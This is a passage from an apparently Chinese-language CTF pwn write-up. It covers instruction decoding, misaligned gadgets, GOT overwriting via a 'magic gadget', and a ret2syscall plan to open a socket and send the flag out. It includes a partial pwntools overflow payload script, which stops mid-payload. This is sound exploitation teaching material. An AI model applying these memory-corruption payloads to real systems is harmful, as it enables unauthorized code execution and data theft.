 

观察上图，很容易就会有一个问题，CPU如何知道这个机器指令的长度？

其实啊，每个指令由操作码和操作数两部分组成，CPU设计好的时候，指令集就已经确定了，CPU对每条指令都规定了对应的机器码，**CPU刚开始读取指令的时候，并不知道这个指令的长度，不过它会先读取操作码，读完操作码之后，它就知道这个指令应该是多长了，从而再去读对应字节的操作数**。

这样再理解错位机器码的时候就很容易了，CPU面对的只有二进制01（上面写成十六进制是方便理解），只要你能确保你想要的指令是存在于代码段的，尽管他们在ida里是看不到的。却依然可以去拿这个指令去执行，**因为CPU并不会去检查你这个指令是否是程序中正常的指令，即使你是错位得到的**。



## 一个字节太多的payload

现在也有了syscall，那按理说可以去进行系统调用socket和connect了吧？
![](/upload/img/2706180-20220426102259813-2020062452.png)



也没有rax...，程序里也没有任何与rax有关的指令。

但是libc里啥都有，因此我们的对策是在libc里找到pop rax ; ret指令，然后将其覆写到无用函数的got表里。

继续采用magic gadget。大致思路就是去拿到libc中无用函数的偏移再拿到libc中pop rax;ret的偏移，然后计算二者偏移放入ebx，然后rbp-0x3d写入无用函数的got地址，执行magic gadget即可。去libc中找函数偏移的时候踩了个坑，在文末记录了一下。

接着思路就很简单了，用magic gadget凭空造出来我们需要的东西，然后去用ret2syscall的手法来执行socket+connect+open+read+write函数即可。真的这么简单么？ 我们似乎忘记了，这道题是有溢出限制的。0x1b0个字节的溢出，看起来很多，但是真正实现起来刚才的思路会发现溢出远远不够。

下面是上面思路所对应的exp（不想仔细研究的可以不研究，毕竟这个不是本题正确的exp，只是放一下上面思路的exp（这个如果溢出足够的话，这个exp是可以打通的））

```python
#coding:utf-8
from pwn import *
context(arch='amd64',log_level='debug')
p=process('./a')
e=ELF('./a')
#gdb.attach(p)
libc=ELF('libc.so.6')

alarm_plt_addr=e.plt['alarm']
alarm_got_addr=e.got['alarm']
close_got_addr=e.got['close']
close_plt_addr=e.plt['close']
prctl_got_addr=e.got['prctl']
prctl_plt_addr=e.plt['prctl']
read_got_addr=e.got['read']

main_addr=0x40086A
pop_rdi_addr=0x400903
pop_rsi_r15_addr=0x400901
bss_addr=0x601100
magic_gadget_addr=0x400618
gadget=0x4008fa

#此时在将flag写入bss段
payload=16*'a'
payload+=p64(gadget)
payload+='flag\x00\x00\x00\x00'#这里即使最后ebx只能传送前四字节，但依然要用\x00来补齐
# 不然会导致后面地址与flag会在同一个内存单元
payload+=p64(bss_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget_addr)
```